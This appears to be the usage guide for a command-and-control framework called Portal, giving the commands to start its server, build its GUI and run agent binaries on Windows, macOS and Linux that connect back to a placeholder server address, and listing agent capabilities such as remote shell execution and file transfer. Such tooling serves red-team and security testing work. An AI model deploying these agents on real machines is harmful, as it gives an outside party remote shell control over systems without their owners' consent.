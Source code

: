 # Portal C2 Framework Usage Guide

## Server
To start the C2 server:
```
./server/server -addr 0.0.0.0:50051
```

## GUI
The Wails GUI application can be built using:
```
just build-ui
```

## Agents
To run an agent, use the appropriate binary for your target OS and architecture:

### Windows
```
agents\agent-windows-amd64.exe -server your-server-ip:50051
```

### macOS
```
chmod +x agents/agent-macos-amd64
./agents/agent-macos-amd64 -server your-server-ip:50051
```

### Linux
```
chmod +x agents/agent-linux-amd64
./agents/agent-linux-amd64 -server your-server-ip:50051
```

## Commands
The following command types are supported:
- shell: Execute shell commands
- system: Get system information
- process: List running processes
- screenshot: Take a screenshot (not fully implemented)
- upload/download: File transfer (not fully implemented)
